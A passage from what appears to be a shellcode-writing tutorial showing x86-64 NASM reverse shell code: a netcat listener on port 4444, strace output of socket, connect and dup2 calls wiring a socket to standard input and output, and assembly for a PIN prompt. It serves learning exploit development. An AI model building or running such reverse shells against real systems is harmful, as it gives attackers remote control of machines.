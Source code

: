 ```js

```

If the connection succeeds, `connect()` will return 0. Let's validate that by using the strace tool on the shellcode. Open 2 terminal windows.

1. run the command to listen on port 4444 to which our shellcode will try to connect to:
```js
nc -l 4444
```

2. assemble, link and run the program with strace on 2nd window. You will see `socket()` syscall returning us a fd = 3 which is then the 1st argument for `connect()` syscall. Second argument is the addr structure and 3rd argument specifies 16 bytes as the length of our struct. We can validate that `connect()` returned successfully with return value 0.

```js
$ nasm -felf64 reverse.nasm -o reverse.o
$ ld reverse.o -o reverse
$ strace ./reverse

execve("./reverse", ["./reverse"], 0x7ffc7f671540 /* 63 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2

```

#### <b>Part 2</b> - enter the correct PIN code

In order to ask the user to enter the correct PIN code we have to specify the same file descriptor we used for `connect()` syscall also for the `write()` syscall as 1st argument (RDI). As we saved the fd to RDI earlier, we have already done that. For argument number 2 we need to provide an address where we have stored the string we want to display to the user "PIN:". For that we should convert the string to hex, change the byte order as we are dealing with little-endian (`python -c 'import binascii; binascii.hexlify("PIN:"[::-1])'`) and then push that value to the stack so we can move the stack address in RSP to RSI.

```js
write:
	;ssize_t write(int fd, const void *buf, size_t count);

	xor rdx, rdx
	add rdx, 0x6

	xor rsi, rsi
	push rsi
	mov rsi, 0x3a4e4950
	push rsi
	mov rsi, rsp

	mov rax, 0x1
	syscall
```
